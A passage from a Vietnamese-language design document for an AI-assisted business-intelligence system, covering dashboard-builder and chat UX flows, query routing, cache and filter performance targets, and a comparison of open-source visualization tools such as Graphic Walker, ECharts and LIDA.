        M3B --> M3C["🏗️ Dashboard/Report<br/>tự động cập nhật"]
    end
    
    style M1 fill:#6366F1,stroke:#333,color:#fff
    style M2 fill:#059669,stroke:#333,color:#fff
    style M3 fill:#D97706,stroke:#333,color:#fff
```

| Mode | UC | Khi nào dùng? | Ví dụ | Output |
|:-----|:---|:-------------|:------|:-------|
| **Chat Q&A** | UC2 | Khám phá, hỏi ad-hoc | "Sản phẩm nào bán chạy nhất tuần này?" | 1 chart trong chat, ephemeral |
| **Dashboard Builder** | UC3 | Tạo dashboard định kỳ | "Tạo dashboard Sales Overview cho team" | Dashboard persist (personal/global), auto-refresh |
| **Hybrid** | UC2→UC3/UC4 | Khám phá → phát hiện insight → lưu lại | Hỏi → thấy chart hay → "Add to Dashboard" hoặc "Add to Report" | Chart pinned, auto-refresh |

#### 6.3.2. So Sánh UX: Traditional BI vs AI-Assisted BI

##### Luồng Tạo Chart Trong Tool BI Truyền Thống (Metabase, Tableau)

```
Bước 1: Chọn data source/table                    (phải biết schema)
Bước 2: Chọn metric (e.g., SUM of revenue)         (phải biết column nào)
Bước 3: Chọn dimensions/grouping                   (phải biết GROUP BY gì)
Bước 4: Chọn filter (date range, category...)      (phải biết filter nào)
Bước 5: Chọn chart type (Bar, Line, Pie...)        (phải biết chart nào phù hợp)
Bước 6: Customize appearance                        (tùy chỉnh color, title...)
Bước 7: Save & add to dashboard                     (sắp xếp layout)

→ Yêu cầu: User phải hiểu schema, SQL concepts, chart best practices
→ Ước tính: 5-15 phút per chart cho người quen, 30+ phút cho người mới
```

##### Luồng Tạo Chart Trong AI-Assisted BI (Cách Tiếp Cận Tối Ưu)

```
Bước 1: User diễn đạt bằng ngôn ngữ tự nhiên
        "Tạo chart doanh thu theo tháng, chia theo khu vực"
        
Bước 2: AI đề xuất (user review & adjust)
        → AI: "Tôi đề xuất Stacked Bar Chart với:
               - X axis: Tháng
               - Y axis: Doanh thu (VND)  
               - Color: Khu vực
               - Filter: 6 tháng gần nhất
               Bạn muốn điều chỉnh gì?"
               
Bước 3: User chấp nhận hoặc tinh chỉnh
        "Đổi sang Line Chart, thêm filter theo VIP customer"
        
Bước 4: AI tạo chart → User review kết quả
        → Chart hiển thị + generated code visible
        
Bước 5: Pin to dashboard (1 click)

→ Yêu cầu: User chỉ cần biết business terms, không cần biết SQL/schema
→ Ước tính: 30 giây - 2 phút per chart
```

**Tóm tắt khác biệt:**

| Aspect | BI Truyền Thống | AI-Assisted BI | Cải thiện |
|:-------|:---------------|:---------------|:----------|
| **Input** | GUI dropdowns (chọn table, column, filter) | Natural language | Dễ tiếp cận hơn 10x |
| **Knowledge cần** | Schema, SQL, chart types | Business terms only | Hạ rào cản entry |
| **Time per chart** | 5-15 phút | 30s - 2 phút | **5-10x nhanh hơn** |
| **Khám phá data** | Thử sai (trial & error) | AI gợi ý insights | Phát hiện pattern mới |
| **Complex analysis** | Cần biết SQL, viết calculated fields | "So sánh MoM growth" — AI generate code | Mở rộng capability |
| **Consistency** | Phụ thuộc người tạo metric | Semantic Layer (Wren AI) enforce consistency | Giảm sai sót |
| **Learning curve** | Cao (2-4 tuần training) | Thấp (dùng ngay) | Adoption nhanh hơn |

#### 6.3.3. AI-Assisted Dashboard Builder — UX Flow Chi Tiết

##### Step 1: Tạo Dashboard Mới

**UX**: Dashboard Builder form (name, description, auto-refresh interval) + AI Assistant panel proactively suggests widgets dựa trên Wren AI Semantic Layer (biết metrics nào available → gợi ý: Doanh thu theo tháng, Số đơn theo ngày, Top sản phẩm, Revenue by region, Tỷ lệ đơn hủy). Button [Generate All] để AI tạo toàn bộ.

##### Step 2: Tạo Widget (3 cách)

```mermaid
graph TD
    CREATE["Tạo Widget Mới"] --> WAY1["🗣️ Cách 1: Natural Language<br/>'Vẽ chart doanh thu<br/>theo tháng'"]
    CREATE --> WAY2["📝 Cách 2: Template<br/>Chọn từ gallery<br/>chart templates"]
    CREATE --> WAY3["💬 Cách 3: Pin từ Chat<br/>Hỏi trong chat<br/>→ Pin kết quả"]
    
    WAY1 --> AI_PROC["🤖 AI Process"]
    WAY2 --> AI_PROC
    WAY3 --> AI_PROC
    
    AI_PROC --> PREVIEW["👁️ Preview Widget<br/>+ Generated Code"]
    
    PREVIEW --> ADJUST{{"User<br/>Điều chỉnh?"}}
    ADJUST --> |"'Đổi sang bar chart'"| REFINE["🔄 AI Refine"]
    REFINE --> PREVIEW
    ADJUST --> |"Chấp nhận"| ADD["📌 Add to<br/>Dashboard Grid"]
```

**Cách 1 — Natural Language (chính)**: User mô tả bằng NL → AI generate widget + preview → user [Refine with AI] hoặc [Add to Dashboard]. Kèm SQL Query [View/Edit] và Chart Config (type, colors, title)

**Cách 2 — Template Gallery**: 8 templates sẵn: Revenue Trend (Line), Orders by Day (Bar), Category Split (Pie), KPI Card, Geo Map, Top 10 Table, Heatmap, Funnel → chọn template → AI auto-fill data từ Semantic Layer

**Cách 3 — Pin từ Chat**: User hỏi trong chat → AI trả chart → [Pin to Dashboard] 1 click

##### Step 3: Dashboard Layout — Drag & Drop + AI Auto-Layout

**Dashboard Layout Example** (Sales Overview Q2/2026, auto-refresh 15m):
- **Row 1**: 4 KPI Cards (Revenue 4.5 tỷ +12%, Orders 1,247 +8%, Customers 389 +15%, Growth +18.2%)
- **Row 2**: Revenue Trend (Line Chart) + Revenue by Region (Pie: HCM 45%, HN 30%, DN 15%, Other 10%)
- **Row 3**: Top Products (Table: rank, product, revenue, growth)
- **Footer**: [Ask AI about this dashboard...] — contextual AI on dashboard
- Mỗi widget có [SQL View/Edit] [Config] [Delete] controls

##### Step 4: Contextual AI trên Dashboard

> [!TIP]
> **Điểm khác biệt lớn nhất vs BI truyền thống**: User có thể **hỏi AI trong ngữ cảnh dashboard** — AI hiểu user đang nhìn chart nào, data timeframe nào.

```
User: (đang nhìn Revenue Trend chart)
      "Tại sao tháng 5 giảm so với tháng 4?"

AI:   "Doanh thu T5 giảm 8.3% so với T4. Phân tích chi tiết:
       1. Số đơn hàng giảm 12% (từ 450→396)
       2. Khu vực HCM giảm nhiều nhất (-15%)
       3. Có 3 ngày lễ trong T5 (30/4, 1/5, 2/5) → ít working days
       4. Sản phẩm 'Giày Sneaker' hết stock 5 ngày
       
       [📊 View drill-down chart]  [📌 Pin analysis to dashboard]"
```

#### 6.3.4. Các Tính Năng Dashboard UX Cần Điều Chỉnh Cho AI-Enhanced

| Tính năng | BI Truyền Thống | AI-Enhanced BI | Điều chỉnh cần thiết |
|:----------|:---------------|:---------------|:---------------------|
| **Tạo widget** | GUI wizard (chọn metric/dimension) | NL prompt + AI generate | Thêm "Refine" loop: AI đề xuất → User điều chỉnh → AI cập nhật |
| **Data exploration** | Manual drill-down | AI suggest "Bạn có muốn xem chi tiết theo...?" | Widget có nút "🔍 AI Drill-down" |
| **Alert/Anomaly** | Rule-based (if revenue < X) | AI detect bất thường tự động | Widget hiển thị ⚠️ + AI giải thích anomaly |
| **Filter** | Dropdown UI chọn filter | "Chỉ xem khu vực HCM" bằng NL | Global chat bar trên dashboard |
| **Cross-filter** | Click chart A → filter chart B | AI hiểu ngữ cảnh cross-widget | Click vào data point → AI phân tích liên quan |
| **Scheduled report** | GUI setup recipient + schedule | "Gửi dashboard này cho team Sales mỗi sáng thứ 2" | NL → auto-configure email/Slack schedule |
| **Template** | Bộ template tĩnh | AI suggest layout dựa trên data model | AI phân tích metrics available → đề xuất dashboard template |
| **Collaboration** | Comment, share link | AI tóm tắt thay đổi khi share | "AI Summary: Doanh thu Q2 tăng 18%, xem chi tiết..." |

#### 6.3.5. Widget Lifecycle — Từ Tạo Tới Auto-Refresh

```mermaid
graph TD
    CREATE["🆕 Create Widget<br/>(NL / Template / Pin)"] --> GENERATE["🤖 AI Generate<br/>SQL + Chart Config"]
    
    GENERATE --> EXECUTE["⚡ Execute Code<br/>(StarRocks / K8s Pod Sandbox)"]
    
    EXECUTE --> PREVIEW["👁️ Preview<br/>(User review)"]
    
    PREVIEW --> |"Refine"| REFINE["🔄 AI Refine<br/>'Đổi chart type'<br/>'Thêm filter'<br/>'Thay color'"]
    REFINE --> EXECUTE
    
    PREVIEW --> |"Accept"| SAVE["💾 Save Widget<br/>Stored: SQL + Config<br/>+ Result Artifact"]
    
    SAVE --> DASHBOARD["📊 Widget on<br/>Dashboard Grid"]
    
    DASHBOARD --> AUTO_REFRESH["⏰ Auto-Refresh<br/>(pipeline-driven)"]
    
    AUTO_REFRESH --> |"dbt run complete<br/>→ data changed"| RE_EXECUTE["⚡ Re-execute<br/>Saved SQL"]
    RE_EXECUTE --> UPDATE["📊 Widget Updated<br/>(silent refresh)"]
    UPDATE --> AUTO_REFRESH
    
    DASHBOARD --> INTERACT["👤 User Interaction"]
    INTERACT --> |"Click data point"| DRILL["🔍 AI Drill-down"]
    INTERACT --> |"Ask question"| CONTEXT["💬 Contextual AI<br/>(aware of visible data)"]
    INTERACT --> |"Edit widget"| REFINE
    
    style CREATE fill:#6366F1,stroke:#333,color:#fff
    style AUTO_REFRESH fill:#059669,stroke:#333,color:#fff
    style CONTEXT fill:#D97706,stroke:#333,color:#fff
```

**Widget Data Storage:**

| Component | Lưu ở đâu | Mục đích |
|:----------|:----------|:---------|
| Widget config (title, chart type, position) | PostgreSQL `dashboard_widgets` | Render lại layout |
| Generated SQL/Python | PostgreSQL `widget_queries` | Re-execute khi refresh |
| Cached result data | Result Artifact Store (Section 5.6) | Serve nhanh, tránh re-compute |
| Chart visual config | PostgreSQL `widget_configs` (JSONB) | ECharts option JSON |

#### 6.3.6. Ví Dụ UX Workflow End-to-End: Tạo Dashboard Từ Đầu

> **Scenario**: Trang (Sales Manager) muốn tạo dashboard theo dõi KPIs cho team Sales.

```
=== Bước 1: Tạo Dashboard (5 giây) ===

Trang: Click [+ New Dashboard]
       Đặt tên: "Sales Team KPIs - Q2/2026"

=== Bước 2: AI Gợi Ý Widgets (10 giây) ===

🤖 AI: "Dựa trên data model của bạn, tôi gợi ý dashboard Sales cần:
        1. 📊 KPI Cards: Revenue, Orders, Customers, AOV
        2. 📈 Revenue trend theo ngày (30 ngày)
        3. 🏆 Top 10 sản phẩm bán chạy
        4. 🗺️ Revenue theo khu vực
        5. 📉 Tỷ lệ đơn hủy theo ngày
        
        [🚀 Tạo tất cả]  [Tùy chọn từng cái]"

Trang: [🚀 Tạo tất cả]

=== Bước 3: AI Tạo 5 Widgets Song Song (~15 giây) ===

🤖 AI: "Đang tạo 5 widgets..."
        ✅ KPI Cards (4/4) — done
        ✅ Revenue trend — done
        ✅ Top products — done
        ✅ Regional map — done
        ✅ Cancellation rate — done
        
        "Dashboard sẵn sàng! Bạn muốn điều chỉnh gì?"

=== Bước 4: Trang Fine-tune (1-2 phút) ===

Trang: "Revenue trend chuyển sang so sánh với cùng kỳ năm trước"
🤖 AI: [Cập nhật chart — thêm line "Q2/2025" overlay]

Trang: "Thêm filter cho team member"
🤖 AI: [Thêm dropdown filter "Sales Rep" trên đầu dashboard]

Trang: "Gửi dashboard này cho team mỗi sáng thứ 2 qua Slack"
🤖 AI: [Configured: Slack #sales-team, Monday 8:00 AM]

=== Kết quả: Dashboard hoàn chỉnh trong ~2 phút ===
=== (BI truyền thống: ~30-60 phút cho cùng dashboard)  ===
```

#### 6.3.7. KPIs Đo Lường Dashboard Builder

| Metric | Target | Đo bằng | Giải thích |
|:-------|:-------|:--------|:-----------|
| **Time to First Dashboard** | < 3 phút | User session tracking | Từ lúc bấm "New" tới dashboard hoàn chỉnh |
| **Widgets per Dashboard (avg)** | 5-8 | Dashboard metadata | Dashboard đủ tổng quan nhưng không quá tải |
| **AI Suggestion Acceptance Rate** | > 60% | User click tracking | AI gợi ý có phù hợp không |
| **Widget Refinement Rounds** | < 3 | Agent conversation length | User cần bao nhiêu lần "refine" mới chấp nhận |
| **Dashboard Active Usage (D7)** | > 50% | Dashboard view logs | Dashboard có được dùng thật không |
| **Auto-refresh Success Rate** | > 99% | Pipeline + widget metrics | Dashboard luôn hiển thị data mới nhất |
| **Contextual AI Query Rate** | > 2/session | Chat-on-dashboard usage | User có tương tác AI trên dashboard không |


### 6.4. Chat Interface — Real-time Ad-hoc Queries

> Cho những câu hỏi nằm ngoài phạm vi dashboard có sẵn (quá cụ thể, cần transaction-level data, phân tích phức tạp), user dùng chat interface → AI Agent query StarRocks trực tiếp.

##### Routing Decision: Dashboard vs Chat vs Python

```mermaid
graph TD
    USER["👤 User cần data"] --> DECIDE{{"Loại câu hỏi?"}}
    
    DECIDE --> |"Dashboard metrics<br/>(doanh thu, KPI, trend)"| DASHBOARD["📊 Server-Side Dashboard<br/>• Query Proxy → StarRocks<br/>• Multi-filter với Redis cache<br/>• Pre-built chart templates"]
    
    DECIDE --> |"Ad-hoc analysis<br/>(drill-down specific,<br/>cross-dimensional)"| CHAT["💬 Chat Interface<br/>• Real-time StarRocks query<br/>• AI generate SQL<br/>• Custom visualization"]
    
    DECIDE --> |"Complex analysis<br/>(forecasting, cohort,<br/>statistical)"| PYTHON["🐍 Python + K8s Pod Sandbox<br/>• Pull data from StarRocks<br/>• Pandas/Scikit-learn<br/>• Advanced viz"]
    
    DASHBOARD --> PERF1["⚡ Response: < 50ms (cache hit)<br/>⏱️ 100-300ms (cache miss)"]
    CHAT --> PERF2["⏱️ Response: 1-5s<br/>(LLM + StarRocks)"]
    PYTHON --> PERF3["⏱️ Response: 5-30s<br/>(sandbox execution)"]
```

##### Ví dụ Routing

| User request | Route | Lý do |
|:------------|:------|:------|
| "Doanh thu tháng này theo khu vực" | Server-Side Dashboard | Standard KPI, filter có sẵn |
| "So sánh doanh thu cửa hàng X vs cửa hàng Y từ 2024-2026" | Chat → StarRocks | Ad-hoc comparison cụ thể |
| "Top 10 SKU có margin thấp nhất ở HCM tháng trước" | Chat → StarRocks | Drill-down cụ thể |
| "Dự báo doanh thu Q3 dựa trên trend hiện tại" | Chat → Python | Cần statistical forecasting |
| "Filter tháng 3, khu vực Miền Nam, danh mục Shoes" | Server-Side Dashboard | Multi-filter dashboard |


### 6.5. Dashboard + Chat Context Bridge

> [!TIP]
> **Trải nghiệm tốt nhất**: User đang xem dashboard → thấy một data point bất thường → click **"Ask AI about this"** → context (filters, chart data) được truyền sang chat panel → AI Agent hiểu ngay context mà không cần user giải thích lại.

```mermaid
graph TD
    subgraph "Next.js Dashboard (Same App)"
        DASH["📊 Chart: Revenue by Region<br/>Filters: Q2/2026, Shoes"]
        ANOMALY["⚠️ User nhận thấy:<br/>Miền Trung giảm 30%"]
        ASK["🔍 Button:<br/>'Analyze this with AI'"]
    end
    
    subgraph "Chat Panel (Slide-out)"
        CONTEXT["📋 Auto-fill context:<br/>• time: Q2/2026<br/>• category: Shoes<br/>• region: Miền Trung<br/>• anomaly: -30% revenue"]
        AGENT["🤖 AI Agent query:<br/>Phân tích chi tiết<br/>Miền Trung, Shoes, Q2"]
        RESULT["📊 Deep analysis:<br/>• Store-level breakdown<br/>• Root cause candidates<br/>• Recommendations"]
    end
    
    DASH --> ANOMALY
    ANOMALY --> ASK
    ASK --> |"React state/context"| CONTEXT
    CONTEXT --> AGENT
    AGENT --> RESULT
```

##### Implementation: Context Bridge (Same-App, no iframe)

**Context Bridge** (React state, same-app — cần implement):
- **`DashboardContext`**: `filters` (time_period, region, category, brand) + `chart_data` (title, anomaly)
- **`ChartCard`**: Button "Analyze with AI" → pass `currentFilters + detectAnomaly(data)` to chat panel
- **`ChatPanel`**: Nhận `dashboardContext` → auto-generate prompt kèm filters + anomaly → `sendToAgent()`


### 6.6. Filter Performance Benchmarks

| Metric | Target | Server-Side Dashboard | Chat Query | Đo bằng |
|:-------|:-------|:---------------------|:-----------|:--------|
| **Filter response time (cache hit)** | < 50ms | ✅ Redis cache: ~20-50ms | N/A | APM metrics |
| **Filter response time (cache miss)** | < 300ms | ⏱️ StarRocks MV: 100-300ms | N/A | APM metrics |
| **Initial dashboard load** | < 1s | Server Component render: ~300-500ms | N/A | Lighthouse |
| **Data freshness** | < 15 phút | Cache invalidate + re-warm after dbt | Real-time (StarRocks live) | Freshness indicator |
| **Filter combination coverage** | 100% | ✅ StarRocks query flexible | ✅ StarRocks query flexible | Coverage test |
| **Cache hit rate** | > 70% | Redis cache warming | N/A | Redis metrics |
| **Concurrent dashboard users** | > 300 | ✅ Redis Cluster absorbs load | StarRocks concurrency | Load test (k6, 500 virtual users) |
| **MV auto-rewrite rate** | > 60% | StarRocks query plan | StarRocks query plan | Explain query |
| **Raw data exposure** | 0 instances | ✅ Zero (server-side only) | ✅ Zero (API response only) | Security audit |

### 6.7. So Sánh: 3 Chiến Lược Phục Vụ Filter

| Tiêu chí | Pre-compute ALL | Real-time Query Only | ✅ Grain-Based + Server-Side Proxy |
|:---------|:---------------|:--------------------|:----------------------------------|
| **Storage** | ❌ Bùng nổ (200K+ tables) | ✅ Minimal (chỉ fact + dim) | ✅ Có kiểm soát (fact + dim + 3-5 MVs + Redis) |
| **Filter response** | ✅ < 10ms (lookup) | ❌ 0.5-5s (full scan) | ✅ < 50ms (cache hit) / < 300ms (cache miss + MV) |
| **Data security** | ⚠️ Pre-computed data accessible | ⚠️ Query results in browser | ✅ **Zero raw data in browser** |
| **Flexibility** | ❌ Chỉ filter đã pre-compute | ✅ Bất kỳ filter nào | ✅ Bất kỳ filter nào |
| **Maintenance** | ❌ Nightmare (sync 200K tables) | ✅ Simple (chỉ refresh fact) | ✅ Manageable (fact + MVs + cache warming) |
| **RBAC support** | ❌ Same data for all | ⚠️ Need app-level check | ✅ Server-side policy enforcement |
| **Data freshness** | ⚠️ Phụ thuộc refresh cycle | ✅ Always latest | ✅ Near real-time (cache TTL 5min) |
| **Scalability** | ❌ Exponential growth | ⚠️ Linear (query load) | ✅ Cache absorbs 70%+ load |

### 6.8. Dashboard Implementation Checklist

| # | Task | Owner | Dependency | KPI đo lường |
|:--|:-----|:------|:-----------|:-------------|
| 1 | Design & implement `fct_sales_daily` | Data Engineer | StarRocks deployed | Table created, daily refresh working |
| 2 | Create dimension tables (date, store, product, channel) | Data Engineer | #1 | All dimension hierarchies populated |
| 3 | Create 3-5 Materialized Views cho top queries | Data Engineer | #1, #2 | MV auto-rewrite rate > 60% |
| 4 | Build Server-Side Query Proxy API | Backend | #1, #2, #3 | API returns chart data only, zero raw data |
| 5 | Setup Redis cache + warming pipeline | Backend/DevOps | #4 | Cache hit rate > 70% |
| 6 | Build Next.js Server Components dashboard | Frontend | #4 | Filter response < 300ms (miss), < 50ms (hit) |
| 7 | Implement Dashboard ↔ Chat context bridge | Frontend | #6 | Context auto-filled on "Analyze with AI" |
| 8 | Setup Dagster pipeline for cache invalidation | DevOps | #5 | Cache re-warmed after each dbt run |
| 9 | Monitor & optimize MV selection | Data Engineer | #3 | Query plans reviewed weekly |


### 6.9. Evidence.dev — Decision History (Archived)

> [!NOTE]
> **Status: Loại bỏ hoàn toàn khỏi production** (xem §6.0.6 cho verdict cuối cùng).
> Section này lưu lại lịch sử research và decision-making để tham khảo.

#### Evidence.dev Research Summary

| Aspect | Findings |
|:-------|:---------|
| **Là gì** | Open-source BI framework (SQL + Markdown → static website with charts). 5.8K⭐ GitHub |
| **Ưu điểm** | BI-as-Code, 60+ chart types, PDF export, low learning curve cho data team |
| **Nhược điểm chính** | (1) Svelte-based (không phải React → tách stack), (2) Parquet-in-browser → raw data exposure, (3) Mọi SQL exposed trong source code |
| **Source verified** | Cloned repo, verified MySQL connector, Parquet pipeline, DuckDB-WASM. 100% feasible nhưng security risk cao |
| **Fork feasibility** | Estimated 2-4 tuần effort cho 3 can thiệp (connector, query engine, schema). Verdict: Chi phí fork > chi phí build mới bằng React |
| **12-criteria comparison** | Evidence thua 10/12 criteria vs custom stack (ECharts + BlockNote + react-grid-layout). Chỉ thắng ở "BI as Code" syntax và built-in PDF |
| **Final verdict** | **Loại bỏ**. Dashboard Builder (§6.0.4) + Report Builder (§6.0.5) + Chat (UC2) phủ sóng 100% use cases |


### 6.10. AI Visualization Landscape Research — Open-Source Tools Chuyên Về AI-Powered Dashboard

> [!NOTE]
> **Mục tiêu**: Khảo sát các open-source tools có khả năng AI-assisted visualization để tìm components/patterns tốt nhất tích hợp vào hệ thống Server-Side Query Proxy hiện tại.

#### 6.10.1. Tổng Quan Landscape (2025-2026)

```mermaid
graph TD
    subgraph "Category 1: Embeddable Chart Components"
        GW["Graphic Walker<br/>@kanaries/graphic-walker<br/>⭐ 7K+ | React/Next.js<br/>Tableau-like drag-drop (optional)"]
        ECHARTS["Apache ECharts<br/>⭐ 62K | Pure JS<br/>50+ chart types"]
        RECHARTS["Recharts<br/>⭐ 24K | React-native<br/>Composable charts"]
    end

    subgraph "Category 2: AI Visualization Frameworks"
        VIZRO["Vizro (McKinsey)<br/>⭐ 3K+ | Python + Plotly<br/>MCP support"]
        LIDA["Microsoft LIDA<br/>⭐ 8K+ | Python<br/>Text→Viz pipeline"]
    end

    subgraph "Category 3: Full BI Platforms (AI-Enhanced)"
        SUPERSET["Apache Superset 5.0<br/>⭐ 64K | Python<br/>MCP + NL Query"]
        METABASE["Metabase + Metabot<br/>⭐ 40K | Java/Clojure<br/>NL2SQL + Visual Query"]
    end

    GW --> |"optional"| TARGET["🎯 AI Agent BI<br/>Next.js + StarRocks<br/>Server-Side Proxy"]
    LIDA --> |"Learn: Pipeline"| TARGET
    ECHARTS --> |"Chart library"| TARGET
    
    style GW fill:#059669,stroke:#333,color:#fff
    style LIDA fill:#4F46E5,stroke:#333,color:#fff
    style ECHARTS fill:#D97706,stroke:#333,color:#fff
```

#### 6.10.2. Detailed Analysis — Từng Tool

##### Tool 1: Graphic Walker (by Kanaries) — **Optional (Data Explorer Mode)**

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/Kanaries/graphic-walker` (7K+ ⭐) |
| **License** | Apache 2.0 |
| **Framework** | React component (NPM: `@kanaries/graphic-walker`) |
| **Core Capability** | Tableau-like drag-and-drop visual analytics — embed trực tiếp vào Next.js |
| **Data Provider** | ✅ **Hỗ trợ server-side computation** — không cần load data vào browser |
| **AI Features** | NL query, Data Explainer, automated insights |
| **Chart Types** | Bar, Line, Area, Scatter, Heatmap, Geo, Treemap, Box Plot, ... |
| **Dark Mode** | ✅ Built-in |
| **Localization** | ✅ Multi-language (including Vietnamese) |

**Tại sao Graphic Walker hữu ích (nhưng optional)?**

```mermaid
graph TD
    subgraph "Graphic Walker Architecture"
        UI["📊 Graphic Walker<br/>React Component"] --> |"data request<br/>(aggregate spec)"| COMP["🔢 Computation Layer<br/>(pluggable)"]
        COMP --> |"Option A"| CLIENT["Client-side<br/>(Web Workers)"]
        COMP --> |"Option B ✅"| SERVER["Server-side<br/>(Custom data provider)"]
        SERVER --> |"API call"| PROXY["🔒 Query Proxy"]
        PROXY --> SR["🗄️ StarRocks"]
    end

    subgraph "Lý do phù hợp"
        R1["✅ React → Next.js native"]
        R2["✅ Server-side computation<br/>→ Zero raw data in browser"]
        R3["✅ Tableau-like UX<br/>→ Drag-drop familiar"]
        R4["✅ AI ready<br/>→ NL spec generation"]
    end

    style SERVER fill:#059669,stroke:#333,color:#fff
    style PROXY fill:#6bcb77,stroke:#333,color:#333
```

**Integration Example với Next.js + Server-Side Proxy:**

**Graphic Walker Integration** (optional — cần implement nếu dùng):
- **Frontend**: `<GraphicWalker computation={serverComputation} fields={metadata} appearance="dark" locale="vi-VN" />`. `serverComputation` POST `/api/gw-query` với aggregate spec (NOT raw SQL)
- **Backend** (`/api/gw-query`): Auth → RBAC check → `translateGWSpecToSQL(spec, permissions)`: (1) Map GW spec → StarRocks columns; (2) Validate against allowed-tables whitelist (`fct_*`, `dim_*`, `mv_*`); (3) Inject RBAC row-level filters; (4) Parameterized SQL → StarRocks → audit log

> [!TIP]
> **Key Advantage**: Graphic Walker gửi **aggregate specification** (không phải raw SQL) → server translate → SQL → StarRocks → trả về aggregated result. User **không bao giờ thấy** SQL hay raw data. Đây chính là pattern phù hợp nhất với Server-Side Query Proxy.

---

##### Tool 2: Microsoft LIDA — AI Visualization Pipeline (Learn Pattern)

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/microsoft/lida` (8K+ ⭐) |
| **License** | MIT |
| **Core** | Python — 4-module pipeline: Summarizer → Goal Explorer → VisGenerator → Infographer |
| **Dùng cho** | Text → Visualization code generation (Matplotlib, Altair, Plotly) |
| **Hạn chế** | Research-grade, best for < 10 columns, needs sandbox |

**Pattern đáng học từ LIDA:**

```mermaid
graph TD
    DATA["📊 Dataset"] --> SUMM["1️⃣ SUMMARIZER<br/>Tạo data summary<br/>(schema, stats, types)"]
    SUMM --> GOAL["2️⃣ GOAL EXPLORER<br/>Đề xuất visualization goals<br/>(auto-generate questions)"]
    GOAL --> VIS["3️⃣ VIS GENERATOR<br/>LLM → chart code<br/>(grammar-agnostic)"]
    VIS --> EVAL["Self-Evaluation<br/>& Repair"]
    EVAL --> RENDER["📈 Final Chart"]
    
    style SUMM fill:#4F46E5,stroke:#333,color:#fff
    style GOAL fill:#059669,stroke:#333,color:#fff
```

**Áp dụng LIDA pattern vào AI Agent BI:**

| LIDA Module | Áp dụng trong hệ thống | Implementation |
|:------------|:-----------------------|:---------------|
| **Summarizer** | Wren AI Semantic Layer đã cung cấp data summary + schema context | ✅ Đã có |
| **Goal Explorer** | AI Agent tự gợi ý "Bạn có muốn xem...?" dựa trên available metrics | ✅ Implement trong §6.3 Dashboard Builder |
| **VisGenerator** | AI generate **ECharts JSON config** trực tiếp → safer, structured, render-ready | ✅ Đã implement — AI Builder mode trong Hybrid Dashboard Builder (§6.0.4) |
| **Self-Evaluation** | Agent kiểm tra chart có hợp lý không (data range, null values, chart type phù hợp) | 🆕 Thêm vào Agent workflow |

---

##### Tool 3: Vizro (McKinsey/QuantumBlack) — Low-Code Dashboard Framework

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/mckinsey/vizro` (3K+ ⭐) |
| **License** | Apache 2.0 |
| **Core** | Python — built on Plotly + Dash + Pydantic |
| **MCP Support** | ✅ Vizro-MCP — LLM tạo dashboard từ natural language |
| **Best for** | Python-based teams, Plotly ecosystem |
| **Fit với hệ thống** | ⚠️ **Trung bình** — Python-only, cần Dash server riêng, không embed vào Next.js |

**Vizro Code Pattern:**

**Vizro Pattern** (reference only, không dùng trong hệ thống): Declarative dashboard config (JSON/YAML → layout). AI generate config → render dashboard. Nhưng chạy trên Python/Dash server — không embed được vào Next.js

> **Takeaway từ Vizro**: Pattern **declarative dashboard config** (JSON/YAML → layout) rất hay. AI Agent có thể generate config → render dashboard. Nhưng Vizro chạy trên Python/Dash server — không embed được vào Next.js React app.

---

##### Tool 4: Apache ECharts — Industrial-Grade Chart Library

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/apache/echarts` (62K+ ⭐) |
| **License** | Apache 2.0 |
| **Core** | Pure JavaScript — framework-agnostic |
| **Chart Types** | 50+ types: Line, Bar, Scatter, Pie, Radar, Heatmap, Treemap, Sankey, Geo Map, Graph, Candlestick, Funnel, Gauge, Parallel... |
| **React Wrapper** | `echarts-for-react` (npm, 4.5K+ ⭐) |
| **Fit với hệ thống** | ✅ **Tốt** — dùng cho custom charts khi Graphic Walker không đủ |

**Tại sao ECharts thay vì Recharts/Plotly?**

| Tiêu chí | Recharts | Plotly.js | ECharts |
|:---------|:---------|:---------|:--------|
| **Chart types** | ~15 | ~40 | **50+** |
| **Bundle size** | 200KB | 3.5MB | **1MB** (tree-shakeable) |
| **Geo/Map** | ❌ | ✅ | ✅ (built-in VN map) |
| **Animation** | Basic | Basic | **Rich** (data morph) |
| **Large data** | ❌ < 10K | ⚠️ < 100K | ✅ **1M+ rows** (progressive rendering) |
| **Theme system** | Basic | Basic | **Powerful** (JSON theme) |
| **AI-friendly** | ⚠️ JSX struct | ⚠️ Layout dict | ✅ **JSON option** (LLM generate dễ) |

> [!TIP]
> **ECharts option = JSON pure** → LLM generate ECharts config dễ hơn JSX (Recharts) hoặc nested dict (Plotly). AI Agent output JSON → `ReactECharts option={aiGeneratedOption}` → chart render.

---

##### Tool 5: Apache Superset 5.0 — Full BI Platform (Reference)

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/apache/superset` (64K+ ⭐) |
| **License** | Apache 2.0 |
| **AI Features** | MCP integration (v5.0+): NL → SQL, chart creation, dashboard generation |
| **Architecture** | Python/Flask backend, React frontend, SQLAlchemy connector |
| **Fit với hệ thống** | ❌ **Không fit** — quá nặng (full BI platform), architecture conflict |

**Takeaway từ Superset**: MCP-based AI → RBAC-aware query execution pattern rất tốt. Nhưng deploy Superset + AI Agent BI = chồng chéo, phức tạp.

---

##### Tool 6: Metabase + Metabot — Traditional BI + AI (Reference)

| Aspect | Details |
|:-------|:--------|
| **Repo** | `github.com/metabase/metabase` (40K+ ⭐) |
| **AI Features** | Metabot: NL2SQL, query debugging, chart analysis |
| **Architecture** | Java/Clojure backend, React frontend |
| **Fit với hệ thống** | ❌ **Không fit** — Metabot = cloud-only, self-hosted limited AI |

**Takeaway từ Metabase**: RAG-based schema indexing pattern cho NL2SQL accuracy (tương tự Wren AI approach).

#### 6.10.3. Ma Trận So Sánh Tổng Hợp

| Tool | AI Viz? | React/Next.js? | Server-Side Data? | Self-Hosted? | Security? | Effort Tích Hợp | Verdict |
|:-----|:--------|:--------------|:------------------|:-------------|:----------|:----------------|:--------|
| **Graphic Walker** | ✅ NL + drag-drop | ✅ Native React | ✅ Custom computation | ✅ | ✅ Spec-based (no raw SQL) | 🟢 1-2 tuần | **Optional** (Hybrid Builder phủ sóng) |
| **ECharts** | ⚠️ JSON config (AI-friendly) | ✅ Via wrapper | ✅ (data passed as props) | ✅ | ✅ (server-side data) | 🟢 1 tuần | **SECONDARY** |
